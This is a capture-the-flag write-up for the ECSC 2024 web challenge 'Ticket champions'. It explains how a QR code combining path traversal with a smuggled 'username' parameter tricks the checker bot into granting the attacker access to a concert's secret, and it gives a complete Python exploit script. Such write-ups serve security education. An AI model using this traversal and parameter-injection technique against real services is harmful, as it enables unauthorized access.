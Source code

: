 # ECSC 2024 - Jeopardy

## [web] Ticket champions (28 solves)

I'm so hyped for the Linkin Park reunion that I'm waiting for the ticket to be available on the new Ticket champions shop!

Site: [https://ticket.challs.jeopardy.ecsc2024.it](https://ticket.challs.jeopardy.ecsc2024.it)

Bot: [https://ticket-bot.challs.jeopardy.ecsc2024.it](https://ticket-bot.challs.jeopardy.ecsc2024.it)

Author: Aleandro Prudenzano <@drw0if>

## Overview

The website allows you to buy tickets for some concerts, moreover we can add our own concerts, check our bookings and get the QR code to show at the entrance of the event.
If we own a concert we are also able to check the QR code of all the bookings on that concert.
Another thing that we can do is to add another user as a checker for the concerts we own.

In the end we are able to upload a QR code which then _should_ be checked by a checker (maybe the owner of the `flag` concert).

## Solution

Looking at the requests performed by the browser during the ticket check we can notice that the `serial` in the QR code is used to build a path, while the comment (if given) is added to the body as parameter.

Joining all together we can submit a QR code whit the following concent: `serial=../concert/1/checker&comment=%26username=<your username>`.
This way we force the checker to add us to the list of available accounts to check the target concert, and so get the flag in the secret of the concert.

## Exploit

```python
#!/usr/bin/env python3

import logging
import os
import random
import string
import requests
import qrcode
import time

def make_qr_code(content):
    FILENAME = "qr.pjpg"
    image = qrcode.make(content)
    image.save(FILENAME, format='JPEG')
    return FILENAME

def random_string():
    return ''.join(random.choices(string.ascii_letters, k=8))

logging.disable()

CHALL_URL = os.environ.get("URL", "https://ticket.challs.jeopardy.ecsc2024.it")
if CHALL_URL.endswith("/"):
    CHALL_URL = CHALL_URL[:-1]

BOT_URL = CHALL_URL.replace('ticket.', 'ticket-bot.')

def check():
    # Register
    s = requests.Session()
    username = random_string()
    password = random_string()

    r = s.post(f"{CHALL_URL}/api/v1/register/", data={
        "username": username,
        "password": password,
        "password_confirm": password
    }, verify=False)

    assert r.status_code == 201

    # Login
    r = s.post(f"{CHALL_URL}/api/v1/login/", data={
        "username": username,
        "password": password
    }, verify=False)

    assert r.status_code == 201

    status_token = r.json()["session_token"]

    # Report
    qr_code_img_name = make_qr_code(f"serial=../concert/1/checker&comment=%26username={username}")
    r = requests.post(f"{BOT_URL}/upload/", files={"qrImage": open(qr_code_img_name, 'rb')}, verify=False)

    assert "Ticket correctly checked" in r.text
    time.sleep(1)

    os.unlink(qr_code_img_name)

    # Get flag
    r = s.get(f"{CHALL_URL}/api/v1/user/concert/", headers={"Authorization": status_token}, verify=False)
    assert r.status_code == 200

    r = r.json()
    concert = r[0]
    flag = concert["secret_code"]

    print(flag)

if __name__ == "__main__":
    check()
```
